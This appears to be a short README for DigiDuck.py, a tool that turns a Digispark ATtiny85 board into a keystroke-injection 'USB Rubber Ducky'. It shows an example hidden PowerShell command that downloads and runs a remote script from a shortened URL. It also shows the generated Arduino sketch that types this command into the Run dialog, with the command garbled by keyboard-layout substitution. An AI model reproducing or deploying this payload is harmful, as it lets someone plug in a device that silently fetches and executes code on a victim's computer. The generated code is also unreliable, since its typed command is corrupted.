 # Digispark ATtiny85 a Cheap "USB Rubber Ducky"

##Usage
    $ python DigiDuck.py
    Enter command to execute: [COMMAND]
  
##Example

    $ python DigiDuck.py
    Enter command to execute: powershell -window hidden IEX (New-Object System.Net.Webclient).DownloadString('https://tinyurl.com/z766ych')
    Attack.ino file created successfully!

##Output

```    
#define KEY_DELETE 76

  void setup() {
  DigiKeyboard.update();
}

void loop() {
  delay(100);
  DigiKeyboard.update();
  delay(100);
  
  DigiKeyboard.sendKeyStroke(KEY_R, MOD_GUI_LEFT);
  delay(100);
  DigiKeyboard.sendKeyStroke(KEY_DELETE);
  delay(50);
  DigiKeyboard.println("powershell /window hidden IEX *New/Object System.Net.Webclient(.DownloadString*-https>&&tinyurl.com&z766ych-(");
  delay(900000);
}
```
